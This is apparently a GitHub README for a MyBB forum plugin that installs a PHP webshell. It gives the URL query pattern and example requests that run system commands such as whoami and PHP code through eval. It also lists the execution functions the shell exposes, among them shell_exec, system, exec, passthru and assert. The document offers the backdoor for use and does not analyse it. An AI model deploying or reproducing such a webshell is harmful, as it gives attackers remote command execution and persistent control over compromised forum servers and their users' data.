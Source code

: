 # MyBB-Shell-Plugin
MyBB Webshell Plugin

A plugin coded to be compatible with any version of MyBB *


A simple PHP webshell:
  After Activation:
    http://127.0.0.1/mybb/?cmd=FUNCTION&command=COMMAND
    
  Examples:
  
    http://127.0.0.1/mybb/?cmd=shell_exec&command=whoami
    http://127.0.0.1/mybb/?cmd=eval&command=phpinfo();
    
Current functions:

shell_exec,
passthru,
exec,
system,
popen,
proc_open,
eval,
assert,
pcntl_exec,
``
  
